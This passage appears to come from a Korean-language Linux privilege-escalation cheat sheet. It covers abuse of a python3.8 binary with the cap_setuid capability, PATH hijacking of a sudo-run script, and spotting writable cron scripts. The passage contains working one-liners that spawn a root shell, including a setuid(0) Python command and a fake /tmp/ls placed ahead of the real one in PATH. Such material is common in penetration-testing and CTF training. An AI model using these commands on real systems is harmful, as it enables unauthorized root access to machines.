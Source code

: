 ### 🛠 시나리오

```bash
/usr/bin/python3.8 = cap_setuid+ep
```

### 💣 수동 익스플로잇

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami  # root
```

---

## 🧩 \[3] 환경 변수 (PATH Hijacking)

### ✅ 개념

- 루트가 스크립트 내에서 `ls`, `cp` 같은 명령어를 절대 경로 없이 실행 시
- `PATH` 환경변수를 조작해서 내가 만든 가짜 바이너리 실행

### 🛠 시나리오

```bash
sudo /opt/run.sh  # 내부에서 ls 실행함
```

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
sudo /opt/run.sh
```

### 💣 쉘 획득

```bash
whoami  # root
```

---

## 🧩 \[4] 크론탭 취약한 스크립트

### ✅ 개념

- 루트가 주기적으로 실행하는 크론탭 스크립트가 **쓰기 가능한 디렉토리/파일**에 존재하면 공격 가능

### 🔍 탐지

```bash
ls -l /etc/cron* /var/spool/cron/crontabs/
```
